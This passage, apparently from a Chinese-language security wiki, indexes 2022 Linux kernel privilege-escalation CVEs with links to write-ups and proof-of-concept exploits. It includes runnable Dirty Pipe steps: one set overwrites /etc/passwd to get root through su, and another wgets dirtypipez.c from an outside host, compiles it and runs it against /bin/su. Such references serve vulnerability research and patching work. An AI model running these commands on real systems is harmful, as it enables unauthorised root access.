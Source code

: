         cp /etc/passwd /tmp/passwd_bak
        new_passwd=$(cat /etc/passwd|head)
        ./exp /etc/passwd 1 "${new_passwd/root:x/oot:}"

        su root
        ```
    - [CVE-2022-0847_DirtyPipe Linux 内核提权漏洞分析及复现](https://mp.weixin.qq.com/s/-lgZhBobM3-3JKxZY9Iu2Q)
    - [CVE-2022-0847 Linux内核漏洞简要分析](https://tttang.com/archive/1480/)
    - [CVE-2022-0847漏洞对容器环境影响的深度分析](https://mp.weixin.qq.com/s/lxWylwK8yliuXVllD9oCfg)

- POC | Payload | exp
    - [Arinerron/CVE-2022-0847-DirtyPipe-Exploit](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)
    - https://haxx.in/files/dirtypipez.c
        ```bash
        mkdir dirtypipez
        cd dirtypipez
        wget https://haxx.in/files/dirtypipez.c
        gcc dirtypipez.c -o dirtypipez

        find / -perm -u=s -type f 2>/dev/null
        ./dirtypipez /bin/su
        ```
    - [polygraphene/DirtyPipe-Android](https://github.com/polygraphene/DirtyPipe-Android) - Dirty Pipe root exploit for Android (Pixel 6)

**CVE-2022-2588**
- POC | Payload | exp
    - [Markakd/CVE-2022-2588](https://github.com/Markakd/CVE-2022-2588)

**CVE-2022-2639 Linux 内核 openvswitch 本地提权**
- POC | Payload | exp
    - [veritas501/CVE-2022-2639-PipeVersion](https://github.com/veritas501/CVE-2022-2639-PipeVersion)

**CVE-2022-25636**
- 相关文章
    - [CVE-2022-25636内核越界写入漏洞对容器的影响分析](https://mp.weixin.qq.com/s/a9FoNK8kzckhRfcKPAvqEg)

- POC | Payload | exp
    - [Bonfee/CVE-2022-25636](https://github.com/Bonfee/CVE-2022-25636)
    - [veritas501/CVE-2022-25636-PipeVersion](https://github.com/veritas501/CVE-2022-25636-PipeVersion)

**CVE-2022-27666**
- 描述

    CVE-2022-27666 是 Linux esp6 加密模块中的一个漏洞。该漏洞成因是，esp6模块中用户消息的接收缓冲区是8页缓冲区，但发送者可以发送大于8页的消息，造成缓冲区溢出。

- 相关文章
    - [CVE-2022-27666: Exploit esp6 modules in Linux kernel](https://etenal.me/archives/1825)

- POC | Payload | exp
    - [plummm/CVE-2022-27666](https://github.com/plummm/CVE-2022-27666)

**CVE-2022-34918**
- POC | Payload | exp
    - [randorisec/CVE-2022-34918-LPE-PoC](https://github.com/randorisec/CVE-2022-34918-LPE-PoC)
    - [veritas501/CVE-2022-34918](https://github.com/veritas501/CVE-2022-34918)

---